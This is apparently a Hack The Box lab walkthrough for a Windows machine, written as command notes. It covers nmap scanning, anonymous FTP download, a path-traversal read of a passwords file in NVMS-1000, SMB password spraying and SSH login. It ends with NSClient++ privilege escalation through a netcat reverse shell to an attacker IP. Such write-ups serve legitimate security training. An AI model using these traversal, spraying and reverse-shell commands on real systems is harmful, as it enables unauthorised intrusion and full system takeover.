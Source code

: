 # 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)


## 🔎 Recon

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.184
nmap -sV -sC -p 21,22,80,135,139,445,5040,5666,6063,6699,7680,8443 -oA scans/nmap-tcpscripts 10.10.10.184
```

---

## 📁 [FTP](FTP) Enumeration

```bash
wget -r ftp://anonymous:@10.10.10.184
find ftp/ -type f
cat ftp/Users/Nadine/Confidential.txt
cat ftp/Users/Nathan/Notes\ to\ do.txt
```

---

## 🌐 [Web](HTTP) (TCP 80) – NVMS-1000

```bash
searchsploit "nvms 1000"
# Test LFI
curl 'http://10.10.10.184/../../../../../../../../../../../../windows/win.ini'
# Use traversal to read passwords.txt
curl 'http://10.10.10.184/../../../../../../../../../../../../Users/Nathan/Desktop/passwords.txt'
```

---

## 🔓 Credential Testing

```bash
# Create users.txt and passwords.txt
cat > users <<EOF
administrator
nathan
nadine
EOF

cat > passwords <<EOF
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
EOF

crackmapexec smb 10.10.10.184 -u users -p passwords
```

---

## 🐚 Shell as Nadine [SSH](SSH)

```bash
sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184
```

---

## 🔐 NSClient++ Enumeration & Tunnel

```bash
# Display password from inside SSH shell
nscp web -- password --display

# Local tunnel to access 127.0.0.1:8443
sshpass -p 'L1k3B1gBut7s@W0rk' ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
```

---

## 🧨 NSClient++ Exploitation Steps

```bash
# Attacker box: prepare reverse shell payload
echo '\programdata\nc.exe 10.10.14.24 443 -e cmd' > shell.bat
python3 -m http.server 80

# Target box: download tools
powershell wget http://10.10.14.24/nc64.exe -outfile nc.exe
powershell wget http://10.10.14.24/shell.bat -outfile shell.bat
```

Then on NSClient++ web GUI (via https://127.0.0.1:8443):
- Add external script `df` → `C:\\programdata\\shell.bat`
- Add schedule to run `df` every 10s
- Control → Reload

---

## 🖥️ Catch SYSTEM Shell

```bash
rlwrap nc -lvnp 443
# Wait for reverse shell
```